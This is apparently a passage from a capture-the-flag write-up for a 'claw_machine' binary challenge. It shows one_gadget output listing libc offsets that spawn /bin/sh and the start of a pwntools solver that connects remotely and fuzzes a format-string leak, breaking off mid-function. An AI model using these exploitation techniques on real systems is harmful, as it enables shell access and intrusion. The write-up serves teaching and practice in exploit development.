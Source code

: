 ### **One gadget** 💎

[one_gadget](https://github.com/david942j/one_gadget) is actually an offset to `execve("/bin/sh")`. After we have leaked `libc base`, we can just add these offsets to it and spawn shell.

```console
➜  challenge git:(main) ✗ one_gadget glibc/libc.so.6 
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Some restrictions should be satisfied first, luckily the first one is.

# Solution

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './claw_machine' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP}:{PORT}\n')

e      = ELF(fname)
libc   = ELF(e.runpath.decode() + 'libc.so.6')
rop    = ROP(e)

rl     = lambda     : r.recvline()
ru     = lambda x   : r.recvuntil(x)
sla    = lambda x,y : r.sendlineafter(x,y)

def fuzzer():
  context.log_level = 'critical'
  for i in range (50):
    r = process(fname)
    r.sendlineafter('>> ', '9')
    r.sendlineafter('>> ', 'y')
    r.sendlineafter('name: ', f'%{i}$p')
```